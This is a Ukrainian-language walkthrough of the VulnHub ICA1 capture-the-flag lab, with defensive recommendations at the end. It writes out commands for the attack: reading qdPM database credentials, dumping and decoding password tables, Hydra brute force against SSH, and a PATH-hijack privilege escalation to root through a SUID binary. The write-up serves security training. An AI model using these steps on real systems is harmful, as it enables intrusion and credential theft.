# Проходження СTF ICA1

В документі розглянуто віртуальну машину **ICA1** з платформи для тестування на проникнення яка призначена для тренувань, перевірки надійності мережі та налаштування привілеїв, опубліковане на сайті [**VulnHub**](https://www.vulnhub.com/entry/ica-1,748/) автором **"onurturali"**.

---

## Проходження CTF крок за кроком
### Крок 1: Отримання IP-адреси цільової машини

 ```sh
 sudo netdiscover -r 192.168.56.109/24
 ```
---

### Крок 2: Сканування відкритих портів та доступних сервісів**
На цьому кроці виявимо доступні в системі сервіси та їх версії.
Використаємо ```nmap``` для сканування отриманої IP-адреси на наявність **відкритих портів** та **запущених сервісів**.
Для цього використовуємо команду з ключами **--top-ports -A -sV -P** для виконання агресивного сканування.

```sh
nmap -sC -sV -p- 192.168.56.109
```

**Результат**:



---

### Крок 3: Дослідження доступності системи через 80 порт
Переглянемо розміщену веб-сторінку. Відкриємо веб-браузер та введемо комбінацію **192.168.56.109:80** в URL-адресу.<br>

**Результат**:
У браузері ми побачили сторінку логування під керуванням **qdPM 9.2**.<br>


Цю сторінку входу можна зламати методом повного перебору.
Однак для цього потрібно витратити достатньо багато часу.

Виконаємо команду для пошуку субдиректорій:
```sh
dirb 192.168.56.109
```


**Результат**
В папці /core є опис symphony project що розгортається локально
В папці  /batch знайдено файл backups.php але він не завантажується та не відкривається
Пошукаємо відомі вразливості для **qdPM 9.2** у **Exploit-DB**:

```sh
searchsploit qdPM 9.2.
```

**Результат**:
Ми виявили набір інструкцій, у яких описано кроки, необхідні для використання вразливості.<br>





Переходимо по шляху вказаному у файлі 

http://192.168.56.109 **/core/config/databases.yml**



або

Знайдемо розміщення файлу **50176.txt**.

```sh
sudo find / -name 50176.txt

cat /usr/share/exploitdb/exploits/php/webapps/50176.txt

```

**Результат**:
Файл **50176.txt** знаходиться у папці **/usr/share/exploitdb/exploits/php/webapps/**.



**Результат**:
Ми отримали інформацію пов'язану із потенційною вразливістю системи.

```text
      username: qdpmadmin
      password: UcVQCMQk2STVeS6J
```
---

### Крок 4: Скачування та дослідження yaml файлу для доступу до бази даних
На попередньому кроці ми знашли шлях до файлу **databases.yml** по протоколу **http** з потенційною інформацією для доступу до бази даних.
Завантажимо файл **databases.yml** для подальшого аналізу. Використаємо команду wget:

```sh
wget http://192.168.56.109/core/config/databases.yml
```
---

### Крок 5: Доступ до сервера MySQL та дослідження облікових записів web користувачів
Використаємо отримані на минулому кроці облікові дані для встановлення з'єднання з раніше ідентифікованим сервером MySQL.
Для з'єднання з базою даних скористаємося консольним клієнтом з користувачем **qdpmadmin** та паролем **UcVQCMQk2STVeS6J**.
Щоб уникнути помилки з **TLS/SSL** сертифікатами, додамо прапорець **--skip-ssl**

```sh
mysql -u qdpmadmin -h 192.168.56.109 --password='UcVQCMQk2STVeS6J' --skip-ssl
```

**Результат**:
Ми приєдналися до сервера **MySQL**.

Виведемо вписок баз даних.
В консолі **MySQL** виконаємо команду:

```sh
SHOW DATABASES;
```

**Результат**:
Ми отримали список баз даних на сервері **MySQL**.



Зафіксуємо базу даних **staff** та виведемо список таблиць.
Виконаємо команди

```sh
use staff;

show tables;
```

**Результат**:
Ми отримали список таблиць бази даних **staff**.<br>
В таблицях **user** та **login** може міститися інформація з даними користувачів.
Виведемо вміст таблиць. Виконаємо команди

```sh
select * from user;

select * from login;
```

**Результат**:
З таблиці **user** ми отримали імена користувачів та їх ролі.
Таблиця **login** містить захешовані по алгоритму MD5 паролі користувачів.<br>



---

### Крок 6: Підготовка списку користувачів та захешованих паролів на комп'ютері Kali
Збережемо список імен користувачів у файлі **user.txt**, а список захешованих паролів - у файлі **passwords.txt**.
Для цього спочатку збережемо вміст таблиць **user** та **login** бази даних **staff**.
Використаємо команду ```mysqldump``` на стороні **Kali Linux** та задамо параметри
- ``-h`` IP адреса віддаленого хоста;
- ``-u`` ім'я користувача;
- ``--password=`` 'пароль користувача'; 
- задамо ключ ```--skip-ssl``` щоб уникнути помилки з **TLS/SSL** сертифікатами;
- вкажемо базу даних **staff**;
- вкажемо таблицю **user**;
- та здійснимо перенаправлення у файл **> назва файлу**.

Вийдемо із консолі MySQL та збережемо вміст таблиці **user** у файл **user.txt** та вміст таблиці **login** у файл **pass.txt**.

```sh
exit
mysqldump -h 192.168.56.109 -u qdpmadmin --password='UcVQCMQk2STVeS6J' --skip-ssl staff user > user.txt

mysqldump -h 192.168.56.109 -u qdpmadmin --password='UcVQCMQk2STVeS6J' --skip-ssl staff login > pass.txt

ls -al u*
```

### Крок 7: Аналіз захешованих паролів

Спочатку ми повинні зрозуміти, які об'єкти ми отримали у файлі **pass.txt**.
Файл містить список захешованих паролей. Ще раз відобразимо його вміст:

```sh
c3VSSkFkR3dMcDhkeTNyRg==
N1p3VjRxdGc0MmNtVVhHWA==
WDdNUWtQM1cyOWZld0hkQw==
REpjZVZ5OThXMjhZN3dMZw==
Y3FObkJXQ0J5UzJEdUpTeQ==
```

Утиліта **Hashcat** не має вбудованих засобів для автоматичної ідентифікації типу хешу.
Щоб дізнатися, який режим хешу (```-m```) нам потрібен, можна проаналізуйте хеш за допомогою спеціальних утиліт ідентифікації, довідників або online сервісами.

За допомогою параметра ```-m``` передамо одну з наших стрічок у каманду **hashid**.

```sh
hashid -m pass.txt
```

**Результат**:
Утиліта не змогла ідентифікувати цей токен. Дійсно він виглядає нестандартно, містить 24 символи і завершується двома знаками рівності.<br>



Скористаємося вебсервісом **Cyberchef**:

**Результат**:
Ми отримали 16-ти символьні хеш коди паролів користувачів бази даних.<br>


Ще раз відобразимо вміст файлу **pass1.txt**.

```sh
suRJAdGwLp8dy3rF
7ZwV4qtg42cmUXGX
X7MQkP3W29fewHdC
DJceVy98W28Y7wLg
cqNnBWCByS2DuJSy
```

### Крок 8: Підбір паролів користувачів
Поправимо вміст файлу **user.txt**, переведемо всі символи у нижній регістр.

```sh
sed -i 's/.*/\L&/' user.txt
```

Далі ми спробуємо використати отримані імена користувачів та закодовані паролі для здійснення атаки методом перебору на SSH-сервіс який працює на 22 порті.
Для цього використаємо команду **hydra**.

```sh
hydra -L user.txt -P pass1.txt -f 192.168.56.109 ssh
```

**Результат**:
Утиліта **hydra** підібрала хеші користувачів **travis** і **dexter**:



```sh
login: travis   password: DJceVy98W28Y7wLg
login: dexter   password: 7ZwV4qtg42cmUXGX
```

---

### Крок 9: Дослідження профілів користувачів travis і dexter
Використовуючи отримані облікові дані спробуємо увійти до цільової машини по протоколу **ssh**.

Спочатку скористаємося обліковими даними користавача **travis**.
Виконаємо команду ```ssh``` та введемо пароль ```DJceVy98W28Y7wLg```.
Виведемо список файлів та папок в профілі користавача **travis**.

```sh
ssh travis@192.168.56.109
ls -al
cat user.txt
```



```text
ICA{Secret_Project}
```

**Результат**:
Ми увійшли до цільової машини під користувачем **travis**.
В обліковому записі **travis** ми не знайшли нічого вартого уваги.<br>

Далі підключимося до комп'ютер використавши облікові дані користавача **dexter**.
Використаємо в якості пароля значення ```7ZwV4qtg42cmUXGX``` та виведемо список файлів профіля.

```sh
ssh dexter@192.168.56.109
ls -al
```


**Результат**:
Ми увійшли до цільової машини під користувачем **dexter**.
В профілі користувача Dexter ми знайшли цікавий файл **note.txt**.<br>



**Результат**:
В профілі користувача Dexter ми знайшли цікавий файл **note.txt** зі вмісту якого ми отримали корисну інформацію, яку можна використовувати далі.<br>


---

### Крок 10: Дослідження потенційних шляхів для підвищення привілеїв

Скористаємося командою **find** для пошуку файлів, що мають привілеї ```SUID``` та належать користувачу ```root```.
Пошук будемо виконувати всій файловій системі, починаючи з кореневого каталогу ```/```.

```sh
find / -perm -4000 -type f -exec ls -al {} 2>/dev/null \;
```

**Результат**:
Ми отримали список файлів з встановленим бітом ```setuid``` та власником ```root```.<br>



Як видно з результатів пошуку, перший файл **/opt/get_access** не є типовим файлом чи каталогом операційної системи.
Тому він привертає увагу. Спробуємо запустити цей файл на виконання.

```sh
/opt/get_access
```



Скористаємося командою ```strings``` щоб отримати текстові або символьні послідовності, які вбудовані у бінарний файл.
Ці символьні аослідовності можуть дати уявлення про функціональність або призначення бінарного файлу та виявити жорстко закодовані значення і параметри конфігурації.

```sh
strings /opt/get_access
```

**Результат**:
Ми помітили незвичайний рядок, виділений у системному виводі: **cat /root/system_info**.
Отже ми можемо спробувати використати цю команду.



---

### Крок 11: Отримання контролю над системою
Щоб скористатися виявленою вразливістю створимо власний виконавчи файл **cat**, наприклад, у папці **/tmp**.
Далі створимо командний файл, який буде запускати **bash**.
Виконаємо команди

```sh
cd /tmp
echo '#!/bin/bash' > cat
echo '/bin/bash -p' >> cat
chmod +x cat
export PATH=/tmp:$PATH
/opt/get_access
```

**Результат**:
Ця команда запустила нову оболонку **bash** з правами **root**.
Ми отримавши доступ до всієї системи та можемо виконувати будь-які дії.
Фактично ми встановлюючи право власності на цю систему.<br>



**Фінальний прапорець отримано! CTF завершено!** 
```sh
cd /root
ls -la
nano root.txt
```
**Результат**:
```text
ICA{Next_Generation_Self_Renewable_Genetics}
```

---

## **Рекомендації**

1. Застосовуйте політики надійних паролів:
   - Використовуйте складні та унікальні паролі для всіх облікових записів.
   - Впроваджуйте багатофакторну автентифікацію, щоб зменшити ризик атак на основі облікових даних.

2. Не зберігайте конфіденційні дані у цільвій системі:
   - Переконайтеся, що конфіденційні файли безпечно зберігаються та зашифровуються.
   - Уникайте розміщення конфіденційних файлів у загальнодоступних веб-каталогах.
   - Не зберігайте конфіденційних даних у вигляді коментарів в текстових файлах та html-ресурсах.

3. Обмежте доступ до інтерфейсів керування:
   - Обмежте доступ до sudo, завжди просіть введення пароля.
   - Запроваджуйте обмеження для входу користувачів системи між собою по протоколу ssh.

4. Проводьте регулярні аудити безпеки:
   - Виконуйте регулярні оцінки безпеки для виявлення та зменшення вразливостей.
   - Зверніть особливу увагу на тих, які пов'язані з ескалацією привілеїв.
   - Перегляньте та обмежте привілеї **sudo** до необхідного мінімуму.

5. Впроваджуйте належне ведення логів та моніторинг:
   - Увімкніть комплексне ведення логів та моніторинг всієї системи.
   - Виявляйте підозрілі дії, наприклад, несанкціонований доступ до файлів або спроби ескалації привілеїв.

---

## **Висновок**
- У цьому покроковому посібнику ми успішно отримали повний доступ до цільової машинои **ICA1**, досліджуючи різні вразливості та методи експлуатації.
- Ми розглянули ключові завдання, такі як виявлення та використання слабких місць у системі, використання методів ескалації привілеїв та досягнення повної компрометації.
- Ця вправа підкреслює важливість захисту конфіденційних файлів, забезпечення суворої політики паролів та регулярного аудиту конфігурацій системи для запобігання несанкціонованого втручання у систему.
- Виконуючи описані кроки, ви тепер маєте чітко розуміти, як вирішувати подібні проблеми, а також застосовувати інструменти та методи, що використовуються в цьому процесі.
- Цей досвід не лише зміцнить ваші навички тестування на проникнення, але й підготує вас до складніших сценаріїв.
- Дотримуючись вказаних рекомендацій, можна значно зменшити ризик використання описаних вразливостей у реальних середовищах.

**Що було зроблено?**  
✔️ Визначено IP-адресу цільової машини.<br>
✔️ Проскановано порти та сервіси.<br>
✔️ Досліджено **HTTP-сервіси**.<br>
✔️ Отримано доступ до сервера ```MySQL```.<br>
✔️ Досліджені облікові записи web користувачів.<br>
✔️ Налаштовано файл зі списком ключових слів.<br>
✔️ Розглянуті методи аналізу хеш кодів.<br>
✔️ Підібрані паролів користувачів travis і dexter.<br>
✔️ Отримано **shell-доступ** через протокол ```SSH```.<br>
✔️ Досліджені облікові записи користувачів travis і dexter.<br>
✔️ Знайдений шлях для підвищення привілеїв.<br>
✔️ Отримано **root-доступу** до цільової системи.<br>